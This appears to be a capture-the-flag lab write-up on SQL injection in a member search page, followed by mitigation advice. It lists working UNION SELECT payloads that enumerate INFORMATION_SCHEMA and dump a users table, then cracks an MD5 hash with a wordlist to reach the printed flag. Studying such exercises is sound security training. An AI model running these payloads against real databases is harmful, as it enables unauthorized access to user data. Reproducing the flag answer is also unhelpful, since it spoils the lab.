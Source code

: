 # SQL Injection In Member Search Field

## Issue

The input field at "http://{IP}:{PORT}/index.php?page=member" does not sanitize input data which is passed through to a database directly enquiry \
resulting in injection of query into SQL database.


## Attack Vector

1 - Navigating to "http://{IP}:{PORT}/index.php?page=member" and entering arbitrary payload eg `' or 1=1` into input field and selecting submit 
reveals SQL syntax error message confirming that data is being passed into query without sanitization

2 - Identify Schemas in database by inputting `4 UNION SELECT null,schema_name from INFORMATION_SCHEMA.SCHEMATA-- -` - we see interesting schema `Member_Sql_Injection` \
Note - as there are only 2 columns being returned/rendered by the server during a normal query then union select needs to only reference 2 columns during query!

3 - Identify the tables in `Member_Sql_Injection` schema with `4 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.COLUMNS -- -` which reveals table name `users`

4 - Identify all columns in Users table in Member_Sql_Injection with  `4 UNION SELECT COLUMN_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS -- -`

5 - Column names `user_id, first_name, last_name, town, country, planet, Commentaire, countersign` are revealed

6 - Query each column in Users table with `4 UNION SELECT {column_name},{column_name} FROM Member_Sql_Injection.users -- -`

7 - After querying all columns we see one particular interest entry in the Users table as follows:
| **Column name**  | user_id | first_name | last_name | town | country | planet | Commentaire                                               | countersign                               |
|--------------|---------|------------|-----------|------|---------|--------|-----------------------------------------------------------|------------------------------------------|
| **Data**         | 5       | Flag       | GetThe    | 42   | 42      | 42     | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28        |

8 - Open bash and navigate to script directory. Launch script with `python3 hashcracker.py` to attempt to crack md5 hash against the passwordlist.txt word list

9 - The decrypted hash is found to be `FortyTwo`

10 - We follow the instructions as per table contents and lowercase `FortyTwo` then apply a SHA256 algorithm to reveal the flag.

11 - Flag is `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

*NOTE - You can use existing MD5 decryption tools such as MD5decrypt.net to attempt to crack the hash.*


## Mitigation

1 - Sanitize and validate input

2 - Use ORM framework to make queries to database

3 - Do not expose raw SQL error messages




